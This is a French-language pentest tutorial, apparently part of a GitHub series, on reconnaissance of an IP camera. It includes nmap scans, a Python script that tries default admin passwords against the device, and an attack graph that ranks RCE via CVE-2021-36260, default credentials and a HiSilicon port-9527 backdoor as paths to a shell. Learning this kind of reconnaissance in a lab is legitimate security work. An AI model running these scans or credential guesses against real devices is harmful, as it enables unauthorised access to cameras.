

# 🎓 TUTORIAL 02 — CARTOGRAPHIER comme ghost1o1

> **Du device au graphe d'attaque**
>
> Méthodologie : Protocole GHOST1O1 · Phase 2
>
> Niveau : Intermédiaire · Durée : 60 min
>
> Outils : `ghosteye`, `ycc365-ghost`, `quebec-ultimate`, `nmap NSE`

---

## 1. PHILOSOPHIE

Cartographier, c'est **dessiner la cible** avant de l'attaquer. Une carte sans légende est inutile. Une cible sans schéma est incompréhensible.

**Trois principes :**
1. **Topologie d'abord** : qui est connecté à qui
2. **Dépendances ensuite** : quels services, quelles versions, quelles libs
3. **Surface d'attaque** : où sont les portes, où sont les fenêtres

**Différence avec Phase 1 (Observer) :**
- Observer = "voici ce que je vois"
- Cartographier = "voici comment tout se relie"

---

## 2. PRÉREQUIS

- Avoir complété **TUTORIAL_01** ou équivalent
- 1 réseau cible (le tien ou lab)
- `ghosteye` installé et fonctionnel
- `nmap` installé
- `python3` avec modules stdlib

---

## 3. THÉORIE — Les 3 couches de la cartographie

### Couche 1 — Topologie réseau
- Qui parle à qui
- Quels protocoles
- Quels flux de données

### Couche 2 — Inventaire services
- Services exposés (ports, bannières, versions)
- Technologies utilisées (frameworks, langages, CMS)
- Configuration (headers HTTP, cookies, SSL)

### Couche 3 — Graphe d'attaque
- Points d'entrée potentiels
- Chemins d'escalade possibles
- Données accessibles

**Le but :** un schéma ASCII ou Mermaid de la cible. Pas une liste — un **graphe**.

---

## 4. PRATIQUE — 5 étapes pour cartographier

### Étape 1 — Scan complet de surface

```bash
# Scan de tous les ports des devices identifiés
nmap -p- -T4 --min-rate 1000 192.168.1.77
```

**Output :**
```
PORT      STATE SERVICE
80/tcp    open  http
554/tcp   open  rtsp
8899/tcp  open  sadp
9527/tcp  open  unknown
```

**Ce que tu apprends :** port 9527 inattendu → recherche → c'est **HiSilicon backdoor**.

### Étape 2 — Identification des services avec NSE scripts

```bash
# Scripts de détection
nmap -sV -sC 192.168.1.77
```

**Output :**
```
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Hikvision-Webs
| http-title: IP Camera
|_http-methods: GET HEAD POST OPTIONS
554/tcp  open  rtsp        Hikvision RTSP
|_rtsp-methods: OPTIONS DESCRIBE SETUP PLAY
8899/tcp open  sadp        Hikvision SADP
9527/tcp open  hi-silicon  HiSilicon backdoor
```

**Ce que tu apprends :** le port 9527 est explicitement identifié comme backdoor HiSilicon → **vector d'attaque potentiel**.

### Étape 3 — Cartographie ONVIF complète

```bash
# GetCapabilities ONVIF
curl -X POST http://localhost:8082/onvif/capabilities \
  -H 'Content-Type: application/json' \
  -d '{"ip":"192.168.1.77"}'
```

**Output :**
```json
{
  "analytics": true,
  "device": true,
  "events": true,
  "imaging": true,
  "media": true,
  "ptz": false,
  "extensions": ["motion_detection", "tampering"]
}
```

**Ce que tu apprends :** caméra fixe (PTZ=false), motion + tampering detection actifs.

### Étape 4 — Recon credentials et utilisateurs

```bash
# Test des credentials par défaut
python3 << 'PY'
import requests

targets = [
    ("192.168.1.77", 80, "admin", ""),
    ("192.168.1.77", 80, "admin", "12345"),
    ("192.168.1.77", 80, "admin", "hik12345"),
    ("192.168.1.77", 8899, "admin", ""),
]

for ip, port, user, pwd in targets:
    r = requests.get(f"http://{ip}:{port}/",
                     auth=(user, pwd), timeout=3)
    print(f"{ip}:{port} {user}:{pwd} → {r.status_code}")
PY
```

**Output :**
```
192.168.1.77:80 admin: → 401
192.168.1.77:80 admin:12345 → 200  ← VALID
192.168.1.77:80 admin:hik12345 → 401
192.168.1.77:8899 admin: → 200  ← VALID
```

**Ce que tu apprends :** `admin:12345` valide sur HTTP, `admin:` valide sur SADP.

### Étape 5 — Génération du graphe d'attaque

```bash
# Crée ton graphe Mermaid
cat > attack_graph.md << 'EOF'
# Graphe d'attaque — 192.168.1.77



## Findings prioritaires
1. **CVE-2021-36260** : RCE non-auth via webserver
2. **Credentials par défaut** : admin:12345 (HTTP), admin: (SADP)
3. **Backdoor HiSilicon** : port 9527 ouvert
4. **Firmware V5.5.0** : ancien, multiples CVE

## Chemins d'attaque
- **P1** : CVE-2021-36260 → RCE immédiat
- **P2** : admin:12345 → auth → modification config
- **P3** : backdoor 9527 → auth admin → shell
EOF
```

**Ce que tu apprends :** tu as un graphe clair, des chemins d'attaque priorisés, et tu peux le partager.

---

## 5. PIÈGES

| Piège | Solution |
|-------|----------|
| Trop de détails → graphe illisible | Max 10 nodes par graphe, sinon split |
| Pas de priorisation | P1/P2/P3 sur les chemins |
| Oublier les services "anonymes" | Toujours faire `-sV` même sur les ports inhabituels |
| Pas de corrélation entre devices | Note les relations inter-devices |

---

## 6. ALTERNATIVES

### A — `quebec-ultimate` (OSINT)
Si la cible a un domaine public :
```bash
cd ~/quebec-ultimate
python3 main.py --target cible.com --depth 3
```

### B — `ycc365-ghost` (firmware)
Si tu peux télécharger le firmware :
```bash
cd ~/ycc365-ghost
python3 scanner/firmware_meta.py --url FIRMWARE_URL
```

### C — Cartographie manuelle (Wireshark)
Lance Wireshark en parallèle du scan, observe les flux réels, complète la cartographie.

---

## 7. TRANSMISSION

### Exercise
1. Reprends ton rapport de TUTORIAL_01
2. Fais les 5 étapes de cartographie
3. Génère un graphe Mermaid de **ta** cible
4. **Publie-le** (anonymisé) en discussion sur le hub

### Pourquoi
> Une cartographie non partagée est un secret de polichinelle. Une cartographie publiée devient un **standard reproductible**.

---

## 📚 Suite

- **TUTORIAL_03** — INSTRUMENTER : choisis ta trousse d'attaque
- **ghosteye** : [github.com/187Ghost101/ghosteye](https://github.com/187Ghost101/ghosteye)
- **Protocole** : [PROTOCOL.md](https://github.com/187Ghost101/ghost1o1/blob/main/PROTOCOL.md)

---

*"There is no lock." — ghost1o1*
